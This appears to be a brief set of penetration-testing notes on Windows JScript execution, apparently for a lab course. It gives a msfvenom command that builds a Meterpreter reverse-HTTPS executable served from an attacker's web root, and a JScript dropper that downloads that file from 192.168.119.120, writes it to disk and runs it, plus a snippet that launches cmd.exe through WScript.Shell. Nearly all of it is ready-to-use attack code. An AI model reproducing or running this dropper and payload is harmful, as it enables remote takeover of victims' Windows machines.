 ## Execution of Jscript on Windows
```js
var shell = new ActiveXObject("WScript.shell")
var res =shell.Run("cmd.exe")
```

### JS Meterpreter Dropper
Server: 生成shellcode.exe
```Linux
sudo msfvenom -p windwos/x64/meterpreter/reverse_https LHOST=192.168.119.120 LPORT=443 -f exe -o /var/www/html/met.exe
```

Dropper:
```js
var url = "http://192.168.119.120/met.exe"
var Object = WScript.CreateObject('MSXML2.XMLHTTP');

Object.Open('GET',url,false);
Object.Send();

if (Object.Status == 200)
{
	var Stream = WScript.CreateObject('ADODB.Stream');
	Stream.Open();
	Stream.Type=1;
	Stream.Write(Object.REsponseBody);
	Stream.Position = 0;
	
	Stream.SaveToFile("met.exe",2);
	Stream.Close();
}

var r = new ActiveXObject("WScript.Shell").Run("met.exe");
```
